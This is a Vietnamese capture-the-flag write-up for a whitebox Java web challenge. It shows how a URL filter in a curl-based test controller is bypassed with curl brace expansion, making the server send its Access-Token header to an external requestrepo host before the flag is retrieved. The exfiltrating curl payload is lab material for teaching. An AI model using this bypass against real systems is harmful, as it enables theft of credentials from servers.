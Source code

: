 Đây là challenge whitebox viết bằng java. Đọc source ta thấy flag nằm trong path `/api/flag`

```java
    @GetMapping("/flag")
    public ResponseEntity<Map<String, String>> getFlag(@RequestHeader(value="Access-Token", required=true) String accessToken){
        Map<String, String> response = new HashMap<>();
        if (accessToken == null || accessToken.isEmpty()){
            response.put("result", "fail");
            response.put("message", "Unauthorized");
            return ResponseEntity.status(403).body(response);
        }
        if (!accessToken.equals("[**REDACTED**]")){
            System.out.println(accessToken);
            response.put("result", "fail");
            response.put("message", "Access token is not Valid");
            return ResponseEntity.status(400).body(response);
        }
        response.put("result", "success");
        response.put("message", flag);
        return ResponseEntity.ok(response);
    }
```
Để lấy được thì ta phải gửi request với Header Access-Token đúng. Nhưng hiện tại chưa biết Access-Token là gì.
Tiếp tục phân tích source thì thấy trong file `ApiTestController` có thực hiện curl một url và được set header `Access-Token`
![image](https://github.com/user-attachments/assets/04d0fa9a-d144-4b56-bbbd-831044e83abe)
Do url này được filter khá nhiều: scheme, user, host white list local, path.
Sau hồi tìm kiểm mình tìm được một cách url có thể bypass được 
Với câu lệnh sau
```
curl http://example.com/{path1,path2}
```
Thực hiện request tới 2 url `http://example.com/path1` và `http://example.com/path2`. Tức là sẽ ghép lần lượt các phần tử trong `{}` với chuỗi đằng trước để ra được url.
Lợi dụng điểm này ta sẽ tạo ra câu lệnh như sau
```
curl http://pd6lhjct.requestrepo.com{@localhost/,/}
```
Câu lệnh này sẽ thực hiện ghép 2 phần trong {} thành 1 url `http://pd6lhjct.requestrepo.com@localhost/` (localhost) và 1 url `http://pd6lhjct.requestrepo.com/` để bắt được request đọc header `Access-Token`
Tương ứng với các tham số `user=pd6lhjct.requestrepo.com{`, `host=localhost`, `path=/,/}`
Thực hiện gửi request

![image](https://github.com/user-attachments/assets/bd904a93-4666-454c-a948-d5e1e64939ce)

Nhận được Access-Token
![image](https://github.com/user-attachments/assets/12118285-3dfc-4001-b832-8f062106c2e0)

Lấy flag
![image](https://github.com/user-attachments/assets/07f18db8-6b60-479e-bab3-16b74cef0da4)


